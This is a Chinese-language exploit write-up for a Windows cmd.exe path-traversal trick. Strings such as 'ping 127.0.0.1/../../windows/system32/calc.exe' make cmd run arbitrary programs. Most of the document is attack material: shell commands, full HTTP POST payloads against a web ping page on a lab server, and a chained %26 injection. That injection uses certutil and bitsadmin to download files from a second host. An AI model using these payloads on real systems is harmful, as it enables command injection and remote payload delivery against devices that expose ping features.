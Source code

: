 ## 利用方式
```shell
cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../../../../windows/system32/calc.exe"
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_Me8Xy2FL.png)
当然也不知ping命令还有一些也可以，例如下列
```shell
cmd.exe /c "whoami 127.0.0.1/../../../../../../../../../../../../../../../windows/system32/calc.exe" 
cmd.exe /c "nslookup 127.0.0.1/../../../../../../../../../../../../../../../windows/system32/calc.exe"
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_JXcHyMw3.png)
## 可能的使用场景
### 一些基于windows 系统的设备 web管理页面
**我们经常遇到一些基于Windows系统的设备，在其管理页面上具备ping功能，其目的是为了进行连通性测试或者资产发现等等。当然一些网站可能也有类似的功能。由于开发者安全意识的提高，以及SDL的推广落地，直接进行OS Command Injection的可能性非常低。利用这个方法解和上传漏洞（如果存在的话可以执行任何代码）**

windows 客户端测试不通过，在windows server 2012 测试如下
```http
POST /ping.php HTTP/1.1
Host: 192.168.93.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

ipaddress=127.0.0.1/../../../../../../../windows/system32/ipconfig.exe
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_a9n1zYCl.png)
### 远程下载文件
这个比较鸡肋，由于路径穿越执行命令是无法带参数，带参数就会报错
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_16_fXgq5zKT.png)
但是在第第一个命令后带上&，两个命令一起执行，那么就能执行成功后面的命令
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_16_GVq5rZty.png)
在这里将上面代码的`escapeshellcmd`函数去掉，添加%26，执行文件下载的命令

```http
POST /ping.php HTTP/1.1
Host: 192.168.93.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

ipaddress=127.0.0.1/../../../../../../../windows/system32/calc%26certutil.exe /urlcache /split /f http://192.168.200.76:8080/test.txt C:\\test.txt
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_q7ap1oQB.png)
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_EY3cAMrv.png)

```shell
bitsadmin /transfer /myDownload /download /priority normal "http://192.168.200.76:8888/test.txt" c:\22.txt
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_BFCaxd3T.png)

![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_18_8yzxgOGP.png)
